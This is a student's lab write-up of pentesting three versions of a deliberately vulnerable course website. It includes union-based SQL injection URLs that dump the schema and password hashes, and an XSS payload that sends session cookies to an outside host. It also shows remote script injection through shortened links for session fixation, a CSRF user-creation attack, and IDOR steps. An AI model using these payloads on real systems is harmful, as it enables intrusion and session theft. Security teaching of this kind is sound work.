

# Project 8 - Pentesting Live Targets

Time spent: **51** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection (SQLi)<br />  
    <br />  
    Steps to recreate:
- Go to the salespearson page https://104.198.208.81/blue/public/salesperson.php?id=1
- Replace the id parameter with a single quote ```'```.<br />
Example: ```https://104.198.208.81/blue/public/salesperson.php?id='```
- After the quote type url encoded SQL command.<br />
Example: ```https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Chashed_password+FROM+users+limit+20+offset+2+--+```
- You can interate through the records by changing the ```LIMIT``` and ```OFFSET``` values
- Some of the example commands:<br />```https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Cdatabase()+--+
https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ctable_name+FROM+information_schema.tables+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+
https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ccolumn_name+FROM+information_schema.columns+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+```

- Data collected:
    - Database: globitek_blue
    - Tables:
        - users
        - territories
        - states
        - salespeople_territories
        - salespeople
        - failed_logins
        - countries
        - feedback
    - Columns
        - id
        - name
        - code
        - username
        - count
        - last_attempt
        - email
        - feedback
        - created_at
        - first_name
        - last_name
        - phone
        - territory_id
        - salesperson_id
        - country_id
        - state_id
        - position
        - hashed_password

Vulnerability #2: Session Hijacking/Fixation<br />  
    <br />  
    Steps to recreate:
- When logged in as an admin go to "Countries, States, & Territories".
- Click on "Show", doesn't matter which country.
- Click on "Add a State".
- Enter values for "Name" and "Code" and click create.
- Click on "Add a Territory".
- Ender a value for "Name".
- In the filed "Position" type:
  ```html
        <script src="https://bit.ly/2z1UCVh"></script>
  ```  
  https://bit.ly/2z1UCVh is a shortened link for a <a href="./js_scripts/Untitled-8.js">js script</a> hosted on GoogeDrive
- Sign in again to the website as an admin
- Now the owner on PHPSESSID hardcoded in js script is logged into the website as an admin  
This is possible because new PHPSESSID is not generated when a used logs into website


## Green

Vulnerability #1: Username Enumeration<br />  
    <br />  
    Steps to recreate:
- On the Log In page try to bruteforce diffent usernames.
- The usernames tha exist in the database will get the message "Log in was unsuccessful" in bald.  
The error message is highlited in bald because a different CSS class is assigned to the error message for usernames that exit in the database.


Vulnerability #2: Cross-Site Scripting (XSS)<br />  
    <br />  
    Steps to recreate:
- Go to the Contact page.
- In the text area type the following script 
  ```html
    <script>var node = document.createElement('img');
    node.src = "http://192.168.1.2:3000?cookie="+document.cookie;
    document.getElementById("main-content").appendChild(node);</script>
  ```
- Submit the form
- When admin checks the feeedback ```PHPSESSID``` will be sent to the http://192.168.1.2:3000 address as a GET parameter


## Red

Vulnerability #1: Insecure Direct Object Reference (IDOR)<br />  
    <br />  
    Steps to recreate:
- Go to the "Find a Salesperson" page.
- Click on one of the salespersons page.
- Increment the number at the end of the URL.

Vulnerability #2: Cross-Site Request Forgery (CSRF)<br />  
    <br />  
    Steps to recreate:
- When logged in as an admin go to http://artemskit.github.io .  
See the code for the page <a href="./html/index.html">here</a>
- A new user will be created with the username "johnnybravo".
- This is possible because /red/public/staff/users/new.php does not check "csrf_token" in the new user creation form


## Bonus Objective 1:
### Build on Objective #3 (SQL Injection). Experiment to see what other kinds of information you can get the database to reveal.
- Collected information about database schema and password hashes as demonstrated in Blue Vulnerability #1: SQL Injection (SQLi)

## Bonus Objective 2:
### Build on Objective #4 (Cross-Site Scripting). Experiment to see if you can use XSS to: a) direct the user to a new URL, b) read cookie data, c) set cookie data.
- Read the cookie data as demonstrated in Green Vulnerability #2: Cross-Site Scripting (XSS)
- Can't demonstrate redirect because the Green target's page "Feedback" already redirects to another page.  
Redirects are done through
```javascript
    document.location = "URL"
```
- Set cookie <br />  
<br />

## Advanced Objective:
### Set cookie using XSS
- Can't demonstrate "Set cookie using XSS" through the "Feedback" page because the Green target's "Feedback" page already redirects to another page.  
- Demonstrated using XSS in the "Add a Teritory" page.<br />  
<br />  
    Steps to recreate:
- When logged in as an admin go to "Countries, States, & Territories".
- Click on "Show", doesn't matter which country.
- Click on "Add a State".
- Enter values for "Name" and "Code" and click create.
- Click on "Add a Territory".
- Ender a value for "Name".
- In the filed "Position" type:
  ```html
        <script src="https://bit.ly/2z3GhIf"></script>
  ```  
  https://bit.ly/2z3GhIf is a shortened link for a <a href="./js_scripts/newScript.js">js script</a> hosted on GoogeDrive
- The cookie is changed


## Notes

Any user can be deleted, which creates a situation where noone can log into the website.  
Any user can use XSS to redirect away from the "Feedback" page, which creates a situation where noone can use this page.
